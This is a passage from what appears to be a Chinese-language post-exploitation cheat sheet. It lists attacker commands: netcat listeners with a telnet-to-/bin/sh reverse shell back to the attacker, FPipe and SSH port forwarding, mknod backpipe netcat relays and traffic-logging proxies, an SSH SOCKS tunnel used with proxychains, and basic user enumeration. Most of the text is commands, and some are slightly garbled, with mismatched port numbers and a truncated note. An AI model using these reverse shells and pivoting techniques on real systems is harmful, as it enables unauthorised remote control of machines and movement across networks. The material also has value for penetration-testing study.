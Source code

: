 注意：tcpdump tcp dst [ip] [端口] 和 tcp dst [ip] [端口]

#### **我们有 shell 吗？**

```
nc -lvp 4444 # Attacker. Input (Commands)

nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445

```

#### **是否可以进行端口转发？重定向流量并与之交互**

注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地 IP]

```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

```

注意：ssh-[L / R] [本地端口]：[远程 IP]：[远程端口] [本地用户] @ [本地 IP]

```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port

```

注意：mknod backpipe p; nc -l -p [远程端口]backpipe

```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay

mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)

mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)

```

可以使用隧道吗？在本地远程发送命令

```
ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig

```

机密信息和用户
-------

#### **你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？**

id

who

w
